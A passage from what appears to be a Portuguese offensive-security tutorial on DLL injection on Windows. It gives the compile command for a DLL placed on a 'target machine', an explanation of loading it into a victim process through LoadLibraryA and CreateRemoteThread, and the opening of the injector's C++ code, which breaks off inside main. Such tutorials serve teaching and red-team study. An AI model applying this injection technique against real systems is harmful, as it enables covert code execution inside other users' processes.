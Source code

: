 Podemos compilar o objeto:

```bash
x86_64-w64-mingw32-g++ -shared -o mydll.dll mydll.cpp -fpermissive
```

Após a compilação, podemos armazená-la em algum diretório da máquina alvo, em meu caso ficará em `c:\mydll.dll`.

## Injetando a DLL

O programa que fará a injeção da DLL é basicamente o mesmo utilizado para injeção de código, pois o processo é idêntico, somente três implementações foram feitas:

1. O *payload* que antes era um *shellcode* foi substituído pelo caminho da DLL em disco (`c:\mydll.dll`);
2. Antes de injetar e executar a DLL, é preciso obter o endereço de memória da `LoadLibraryA`, pois esta será uma chamada de API que será executada no contexto da vítima e ela precisará desta função para carregar nossa DLL;
3. Na função `CreateRemoteThread` passamos o endereço da `LoadLibraryA` como argumento `lpStartAddress` e a variável que contém o endereço da nossa DLL no parâmetro `lpParameter`.

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char Dll[] = "C:\\mydll.dll";
unsigned int Dll_len = sizeof(Dll) + 1;

int findPID(const char *procName) {

    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    int pid = 0;
    BOOL proc;

    // snapshot de todos os processos em execucao
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

    // inicializando dwSize
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // inicio da iteracao, primeiro processo
    proc = Process32First(hSnapshot, &pe32);

    // loop para iterar sobre os processos
    while (proc) {
        if (strcmp(procName, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
        proc = Process32Next(hSnapshot, &pe32);
    }

    // fecha o handle aberto
    CloseHandle(hSnapshot);
    return pid;
}

int main(int argc, char* argv[]) {
    int pid = 0;
    HANDLE procH; // process handle
```